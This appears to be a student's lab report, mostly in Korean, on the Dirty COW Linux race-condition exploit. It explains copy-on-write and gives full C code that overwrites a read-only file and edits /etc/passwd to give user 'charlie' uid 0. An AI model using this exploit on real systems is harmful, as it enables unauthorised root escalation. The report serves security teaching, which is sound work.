


# Project 4

## Task 1: Modify a Dummy Read-Only File

### Screenshot



### Analyze

#### Task Setting

Screenshot에서 알 수 있듯이 attack을 통해서 222222 &rarr; \*\*\*\*\*\* 로 변경된 것을
확인할 수 있다.

``` Terminal Command
ls -l /zzz
```

위 커맨드를 통해 파일 주인을 제외하고선 파일 읽기만 가능하다는 것을 확인하였다.

``` Terminal Command
echo 99999 > /zzz
```

Root 권한이 없는 일반 이용자의 경우 위 커맨드를 통해 write가 불가능하다는 것을 확인하였다.

cow\_attack.c 에서는 MAP\_PRIVATE로 파일을 매핑하여 COW Memory에 파일을 매핑하게 된다.

#### COW(Copy-On-Write)

COW(Copy-On-Write)란, 리소스가 복제되더라도 수정되지 않는 경우 같은 리소스를 공유하고,
수정되었을 때만 새 리소스를 만드는 방법을 뜻한다.

#### Threads

이 공격에서 핵심인 두개의 Thread는 다음과 같다.

- **write** Thread  
    Memory 내의 "222222"를 "******"로 변경하는 작업을 수행한다.
    이 때, mapped memory의 복사본의 내용을 수정하기 때문에 원본 파일의 메모리에는
    영향을 주지 않는다.
- **madvise** Thread
    복사본의 매핑을 지워, Page Table에서 원본 매핑을 가리킬 수 있도록 만든다.

#### How it works

**write** Thread가 실행되고 있을 때, **madvise** Thread가 실행될 수 있도록 만들어야 한다.
이를 위해 Linux Kernel의 race condition을 악용하고 각각의 Thread가 Infinite Loop를
실행하도록 만든다.
바로 성공하기는 힘들지만, Infinite Loop를 활용하여 잦은 시도 끝에 성공할 수 있는 것을
확인할 수 있다.

## Task 2: Modify the Password File to Gain the Root Privilege

### Screenshot



### Analyze

#### Task Setting

Task 1 에서의 작업을 단순히 시스템 파일에 적용하는 작업이다.

``` Terminal Command
sudo adduser charlie
```

우선 위 커맨드를 통해 임의의 User를 한 명, charlie를 추가한다.

``` Terminal Command
cat /etc/passwd | grep charlie
```

이 때, 이 charlie의 uid는 1001인 것을 확인할 수 있다.

#### How it works

Task1에서 찾아야하는 string과 바꿀 string를 수정해주었다.
이번 Task에서는 : 로 구분되는 field 중 앞에서 세번째 field를 수정해야한다.
따라서, `charlie:x:1001` 를 찾아 `charlie : x : 0000`로 수정해주었다.
작동 매커니즘은 Task1와 동일하게 Linux Kernel의 Race Condition을 Exploit하였고,
COW 파일에서 복사된 매핑을 지우고 원본 매핑에 write하게 만드는 방식이다.

#### Code

``` c
/* cow_attack.c (the main thread)  */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void* arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
	pthread_t pth1, pth2;
	struct stat st;
	int file_size;

	// Open the target file in the read-only mode.
	int f=open("/etc/passwd", O_RDONLY);
	
	// Map the file to COW memory using MAP_PRIVATE.
	fstat(f, &st);
	file_size = st.st_size;
	map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

	// Find the position of the target area
	char *position = strstr(map, "charlie:x:1001");

	// We have to do the attack using two threads.
	pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
	pthread_create(&pth1, NULL, writeThread, position);

	// Wait for the threads to finish.
	pthread_join(pth1, NULL);
	pthread_join(pth2, NULL);
	return 0;
}

/* cow_attack.c (the write thread) */
void *writeThread(void* arg)
{
	char *content = "charlie:x:0000";
	off_t offset = (off_t) arg;

	int f=open("/proc/self/mem", O_RDWR);
	while(1) {
		// Move the file pointer to the corresponding position.
		lseek(f, offset, SEEK_SET);
		// Write to the memory.
		write(f, content, strlen(content));
	}
}

/* cow_attack.c (the madvise thread) */
void *madviseThread(void *arg)
{
	int file_size = (int) arg;
	while(1) {
		madvise(map ,file_size, MADV_DONTNEED);
	}
}

```
